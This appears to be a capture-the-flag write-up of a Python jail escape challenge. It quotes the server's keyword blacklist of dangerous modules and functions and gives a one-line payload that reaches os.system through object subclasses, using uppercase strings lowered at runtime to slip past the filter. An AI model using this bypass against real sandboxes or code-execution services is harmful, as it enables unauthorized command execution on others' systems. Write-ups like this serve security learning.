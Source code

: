 # slithery (Pwn, 100 points)

> Setting up a new coding environment for my data science students. Some of them
> are l33t h4ck3rs that got RCE and crashed my machine a few times :(. Can you
> help test this before I use it for my class? Two sandboxes should be better than
> one...
> 
> nc pwn.chal.csaw.io 5011

FLAG = flag{y4_sl1th3r3d_0ut}

This challenge is a Python jail escape. This being the first Python jail escape I have ever tried and completed I will give a brief summary of how I completed it the unintended way.

While skimming the python script I saw a check to see if the users input was in a blacklist.

```python
command = input(">>> ")
if any([x in command for x in blacklist.BLACKLIST]):
    raise Exception("not allowed!!")
```

So I connected to the server and ran the following command to get all the words that were blacklisted.
```python
print(blacklist.BLACKLIST)

['__builtins__', '__import__', 'eval', 'exec', 'import', 
'from', 'os', 'sys', 'system', 'timeit', 'base64commands',
 'subprocess', 'pty', 'platform', 'open', 'read', 'write',
 'dir', 'type']
```

At this point I knew what commands I couldn't use and got completely stuck. I looked up other python jail escape CTF challenges and came across two helpful writeups.

[Escaping Python Jails](https://anee.me/escaping-python-jails-849c65cf306e)
[Python SSTI](https://misakikata.github.io/2020/04/python-%E6%B2%99%E7%AE%B1%E9%80%83%E9%80%B8%E4%B8%8ESSTI/)

It took me a lot of trial and error to finally come up with this over engineered script.

```python
print(''.__class__.__mro__[1].__subclasses__()[109].__init__.__globals__['SYS'.lower()].modules['OS'.lower()].__dict__['SYSTEM'.lower()]('cat flag.txt'))
```

I did look at the server to see where the flag was and I found the intended solution in the same directory as the flag.

I learned a lot from this challenge and hopefully will complete more of these.